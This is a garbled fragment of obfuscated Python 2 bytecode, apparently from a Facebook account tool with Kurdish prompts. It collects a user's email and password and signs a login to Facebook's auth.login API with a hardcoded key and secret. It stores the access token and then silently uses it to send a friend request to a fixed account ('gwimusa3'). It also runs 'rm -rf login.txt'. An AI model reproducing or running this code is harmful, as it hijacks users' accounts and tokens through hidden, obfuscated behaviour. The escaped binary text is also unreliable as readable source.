 <t\t\x00j\x12\x00\x83\x00\x00\x01t\t\x00j\x13\x00\x83\x00\x00}\x03\x00d\x10\x00|\x03\x00k\x06\x00rW\x02y!\x01d\x11\x00|\x01\x00\x17d\x12\x00\x17|\x02\x00\x17d\x13\x00\x17}\x04\x00i\x0b\x00d\x14\x00d\x15\x006d\x16\x00d\x17\x006|\x01\x00d\x0e\x006d\x18\x00d\x19\x006d\x1a\x00d\x1b\x006d\x1a\x00d\x1c\x006d\x1d\x00d\x1e\x006d\x1f\x00d \x006|\x02\x00d\x16\x006d!\x00d"\x006d#\x00d$\x006}\x05\x00t\x14\x00j\x15\x00d%\x00\x83\x01\x00}\x06\x00|\x06\x00j\x16\x00|\x04\x00\x83\x01\x00\x01|\x06\x00j\x17\x00\x83\x00\x00}\x07\x00|\x05\x00j\x16\x00i\x01\x00|\x07\x00d&\x006\x83\x01\x00\x01d\'\x00}\x03\x00t\x18\x00j\x19\x00|\x03\x00d(\x00|\x05\x00\x83\x01\x01}\x08\x00t\x1a\x00j\x1b\x00|\x08\x00j\x1c\x00\x83\x01\x00}\t\x00t\x02\x00d\x02\x00d)\x00\x83\x02\x00}\n\x00|\n\x00j\x1d\x00|\t\x00d*\x00\x19\x83\x01\x00\x01|\n\x00j\x1e\x00\x83\x00\x00\x01d+\x00GHt\x18\x00j\x1f\x00d,\x00|\t\x00d*\x00\x19\x17\x83\x01\x00\x01t\x03\x00\x83\x00\x00\x01WqW\x02\x04t\x18\x00j \x00j!\x00k\n\x00rS\x02\x01\x01\x01d-\x00GHt\x0c\x00\x83\x00\x00\x01qW\x02Xn\x00\x00d.\x00|\x03\x00k\x06\x00r\x8c\x02d/\x00GHt\x00\x00j\x01\x00d0\x00\x83\x01\x00\x01t"\x00j#\x00d1\x00\x83\x01\x00\x01t\x0c\x00\x83\x00\x00\x01q\xb6\x02d2\x00GHt\x00\x00j\x01\x00d0\x00\x83\x01\x00\x01t"\x00j#\x00d1\x00\x83\x01\x00\x01t$\x00\x83\x00\x00\x01n\x01\x00Xd\x00\x00S(3\x00\x00\x00NR\x00\x00\x00\x00s\t\x00\x00\x00login.txtR\x04\x00\x00\x00i*\x00\x00\x00s\x08\x00\x00\x00\x1b[1;96m=s\r\x00\x00\x00 FB Daxil bkas8\x00\x00\x00\x1b[31;1m<-------------$\x1b[36;1mLOGIN\x1b[31;1m$------------->s\x18\x00\x00\x00\x1b[33;1m EMAIL/ID \x1b[37;1ms\x1a\x00\x00\x00\x1b[33;1m PASSWORD  \x1b[31;1m s\x16\x00\x00\x00https://m.facebook.coms!\x00\x00\x00\n\x1b[31;1m INTERNET CONNECTION LOSTt\x02\x00\x00\x00nri\x00\x00\x00\x00t\x05\x00\x00\x00emailt\x04\x00\x00\x00passs\x0b\x00\x00\x00save-devicesG\x00\x00\x00api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail=s`\x00\x00\x00format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword=s;\x00\x00\x00return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32t \x00\x00\x00882a8490361da98702bf97a021ddc14dt\x07\x00\x00\x00api_keyt\x08\x00\x00\x00passwordt\x10\x00\x00\x00credentials_typet\x04\x00\x00\x00JSONt\x06\x00\x00\x00formatt\x01\x00\x00\x001t\x13\x00\x00\x00generate_machine_idt\x18\x00\x00\x00generate_session_cookiest\x05\x00\x00\x00en_USt\x06\x00\x00\x00locales\n\x00\x00\x00auth.logint\x06\x00\x00\x00methodt\x01\x00\x00\x000t\x14\x00\x00\x00return_ssl_resourcess\x03\x00\x00\x001.0t\x01\x00\x00\x00vt\x03\x00\x00\x00md5t\x03\x00\x00\x00sigs\'\x00\x00\x00https://api.facebook.com/restserver.phpt\x06\x00\x00\x00paramsR\x16\x00\x00\x00t\x0c\x00\x00\x00access_tokens"\x00\x00\x00\n\x1b[32;1m[\xe2\x9c\x93]Login bw basar kawtwesM\x00\x00\x00https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token=s$\x00\x00\x00\n\x1b[31;1m[!]There is no connection[!]t\n\x00\x00\x00checkpoints<\x00\x00\x00\n\x1b[31;1m[!] bbwra am account la checkpoint ya bakar nayat[!]s\x10\x00\x00\x00rm -rf login.txti\x01\x00\x00\x00s!\x00\x00\x00\n\x1b[32;1m Email w Password Xallat (%\x00\x00\x00R\t\x00\x00\x00t\x06\x00\x00\x00systemt\x04\x00\x00\x00opent\x04\x00\x00\x00menut\x08\x00\x00\x00KeyErrort\x07\x00\x00\x00IOErrort\x04\x00\x00\x00logot\t\x00\x00\x00raw_inputR(\x00\x00\x00t\x02\x00\x00\x00brt\t\x00\x00\x00mechanizet\x08\x00\x00\x00URLErrorR\x0c\x00\x00\x00t\x04\x00\x00\x00Truet\x08\x00\x00\x00_factoryt\x07\x00\x00\x00is_htmlt\x0b\x00\x00\x00select_formt\x04\x00\x00\x00formt\x06\x00\x00\x00submitt\x06\x00\x00\x00geturlt\x07\x00\x00\x00hashlibt\x03\x00\x00\x00newt\x06\x00\x00\x00updatet\t\x00\x00\x00hexdigestt\x08\x00\x00\x00requestst\x03\x00\x00\x00gett\x04\x00\x00\x00jsont\x05\x00\x00\x00loadst\x04\x00\x00\x00textR\x1e\x00\x00\x00t\x05\x00\x00\x00closet\x04\x00\x00\x00postt\n\x00\x00\x00exceptionsR\x02\x00\x00\x00R!\x00\x00\x00R"\x00\x00\x00t\x05\x00\x00\x00login(\x0b\x00\x00\x00t\x05\x00\x00\x00tokett\x02\x00\x00\x00idt\x03\x00\x00\x00pwdt\x03\x00\x00\x00urlR<\x00\x00\x00t\x04\x00\x00\x00dataR\x10\x00\x00\x00t\x01\x00\x00\x00aR\x04\x00\x00\x00R#\x00\x00\x00t\x07\x00\x00\x00unikers(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00